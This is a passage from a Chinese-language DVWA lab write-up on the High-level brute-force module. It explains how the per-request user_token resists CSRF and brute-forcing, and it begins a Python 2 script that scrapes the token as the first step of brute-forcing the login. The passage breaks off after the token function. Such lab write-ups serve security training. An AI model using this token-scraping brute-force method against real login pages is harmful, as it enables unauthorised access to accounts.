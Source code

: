 ```php

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
High级别的代码加入了 Token,可以抵御 CSRF 攻击,同时也增加了爆破的难度,通过抓包,可以看到,登录验证时提交了四个参数:username、password、Login 以及 user_token.

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值,用户每次登录时都要将 user_token 一起提交.服务器收到请求后,会优先做 token 的检查,再进行 sql 查询.
![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa10.png)

同时,High 级别的代码中,使用了 stripslashes(去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个)、 mysql_real_escape_string 对参数 username、password 进行过滤、转义,进一步抵御 sql 注入.

**使用 python 脚本爆破**

`适用于老版本 dvwa 环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token
```